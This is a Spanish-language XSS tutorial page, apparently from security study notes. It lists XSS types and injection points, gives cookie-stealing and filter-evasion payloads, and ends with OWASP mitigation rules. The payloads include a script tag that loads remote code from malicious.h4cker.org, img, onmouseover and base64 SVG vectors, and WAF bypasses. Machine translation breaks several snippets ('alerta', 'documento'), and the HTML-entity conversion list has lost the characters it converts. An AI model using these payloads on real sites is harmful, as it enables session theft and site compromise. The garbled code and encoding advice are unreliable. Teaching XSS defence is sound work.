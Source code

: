 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# XSS Injection

Encontrar las vulnerabilidades xss se logran mediante los siguientes tipos de ataques:

1. Reflejado (Reflected XSS)
2. Persistente (Stored XSS)
3. Basado en DOM (DOM-based XSS)

Normalmente encontrará vulnerabilidades XSS en la siguiente ubicaciones:

* Campos de búsqueda que hacen eco de una cadena de búsqueda al usuario
* encabezados HTTP
* Campos de entrada que reflejan los datos del usuario
* Mensajes de error que devuelven texto proporcionado por el usuario
* Campos ocultos que pueden incluir datos ingresados ​​por el usuario.
* Aplicaciones que muestran datos proporcionados por el usuario

esde la barra de direcciones de un navegador:

```
  javascript:alert("Prueba Omar_s_XSS"); javascript:alerta(documento.cookie);
```

El siguiente ejemplo muestra una prueba XSS que se puede realizar en un campo de entrada del usuario en un formulario web:

```
<script>alerta("Prueba XSS")</script>
```

&#x20;

**NOTA** Los atacantes pueden utilizar técnicas de ofuscación en ataques XSS codificando etiquetas o partes maliciosas del script usando Unicode para que el enlace o el contenido HTML quede disfrazado para el usuario final que navega por el sitio.

### XSS Evasion Techniques

Se pueden utilizar numerosas técnicas para evadir las protecciones XSS y los productos de seguridad, como los firewalls de aplicaciones web (WAF). En lugar de enumerar todas las diferentes técnicas de evasión descritas por OWASP, esta sección revisa algunas de las técnicas más populares.

Primero, echemos un vistazo a una inyección de JavaScript XSS que sería detectada por la mayoría de los filtros XSS y soluciones de seguridad:

```
<SCRIPT SRC=http://malicious.h4cker.org/xss.js></SCRIPT>
```

El siguiente ejemplo muestra cómo la etiqueta HTML **img** se puede utilizar de varias maneras para evadir potencialmente los filtros XSS:

```
  <img src="javascript:alert('xss');"> <img src=javascript:alert('xss')> <img src=javascript:alert("XSS")> <img src=javascript:alert ('xs')>
```

También es posible utilizar otras etiquetas HTML maliciosas (como etiquetas), como se demuestra aquí:

```
  <a onmouseover="alert(document.cookie)">Este es un enlace malicioso</a> <a onmouseover=alert(document.cookie)>Este es un enlace malicioso</a>
```

Un atacante también puede utilizar una combinación de referencias de caracteres HTML hexadecimales para evadir potencialmente los filtros XSS, como se demuestra aquí:

```
  <img src=javascript& #x3Aalert('XSS' x29>
```

La codificación US ASCII puede eludir muchos filtros de contenido y también puede usarse como técnica de evasión, pero solo funciona si el sistema transmite en codificación US ASCII o si se configura manualmente. Esta técnica es útil contra WAF. El siguiente ejemplo demuestra el uso de la codificación ASCII de EE. UU. para evadir WAF:

```
¼script¾alerta(¢XSS¢)¼/script¾
```

**El siguiente ejemplo muestra un ejemplo de una técnica de evasión que implica el uso de etiquetas de inserción** HTML para incrustar un archivo de gráficos vectoriales escalables (SVG):

```
  <EMBED SRC=”data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcm cvMjAwMC9zdmciIHhtbG5zOnhsa W5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3 hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaW dodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU 9InRleHQvZWNtYXNjcmlwdC I+YWxlcnQoIlhTUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" tipo="image/svg+xml" AllowScriptAccess="always"></EMBED>
```

Mitigaciones de XSS

Las siguientes son reglas generales para prevenir ataques XSS, según OWASP:

* Utilice un sistema de plantillas de escape automático.
* Nunca inserte datos que no sean de confianza, excepto en ubicaciones permitidas.
* Utilice el escape HTML antes de insertar datos que no sean de confianza en el contenido del elemento HTML.
* Utilice el escape de atributos antes de insertar datos que no sean de confianza en atributos comunes de HTML.
* Utilice el escape de JavaScript antes de insertar datos que no sean de confianza en valores de datos de JavaScript.
* Utilice el escape CSS y valide estrictamente antes de insertar datos que no sean de confianza en valores de propiedad de estilo HTML.
* Utilice el escape de URL antes de insertar datos que no sean de confianza en los valores de los parámetros de URL HTML.
* Desinfecte el marcado HTML con una biblioteca como ESAPI para proteger la aplicación subyacente.
* Evite el XSS basado en DOM siguiendo las recomendaciones de OWASP en [_https://cheatsheetseries.owasp.org/cheatsheets/DOM\_based\_XSS\_Prevention\_Cheat\_Sheet.html_ .](https://cheatsheetseries.owasp.org/cheatsheets/DOM\_based\_XSS\_Prevention\_Cheat\_Sheet.html)
* Utilice el indicador de cookies **HTTPOnly** .
* Implementar política de seguridad de contenidos.
* Utilice el encabezado de respuesta **X-XSS-Protection** .

También debe convertir la entrada que no sea de confianza en un formato seguro, donde la entrada se muestra como datos para el usuario. Esto evita que la entrada se ejecute como código en el navegador. Para hacer esto, realice la siguiente codificación de entidad HTML:

* Convertir _**a**_ `**&amp;.` \*\* \_
* Convertir _**<**_ a `**&lt;**.`
* Convertir _**>**_ a `**&gt;.`\*\*
* Convertir a _**\*\***_ `**&quot;.` \_
* Convertir a _**\*\***_ `**&#x27;.` \_
* Convertir _**a**_ `**&#x2F;.` \*\* \_

Las siguientes son mejores prácticas adicionales para prevenir ataques XSS:

* Escapa todos los caracteres (incluidos los espacios pero excluyendo los caracteres alfanuméricos) con la entidad HTML **\&#xHH;** formato (donde **HH** es un valor hexadecimal).
* Utilice únicamente la codificación de URL, no la URL completa ni los fragmentos de ruta de una URL, para codificar los valores de los parámetros.
* Escapa todos los caracteres (excepto los caracteres alfanuméricos), con el formato de escape **\uXXXX Unicode (donde X** es un número entero).
* El escape CSS admite **\XX** y **\XXXXXX** , así que agregue un espacio después del escape CSS o use la cantidad total de escape CSS posible rellenando con ceros el valor.
* Eduque a los usuarios sobre la navegación segura para reducir el riesgo de ser víctimas de ataques XSS.

Los controles XSS ahora están disponibles en los navegadores web modernos.

**NOTA** Uno de los mejores recursos que enumera varias mitigaciones contra vulnerabilidades y ataques XSS es la hoja de trucos de prevención de secuencias de comandos entre sitios de OWASP, disponible en [_https://cheatsheetseries.owasp.org/cheatsheets/Cross\_Site\_Scripting\_Prevention\_Cheat\_Sheet.html_](https://cheatsheetseries.owasp.org/cheatsheets/Cross\_Site\_Scripting\_Prevention\_Cheat\_Sheet.html) .
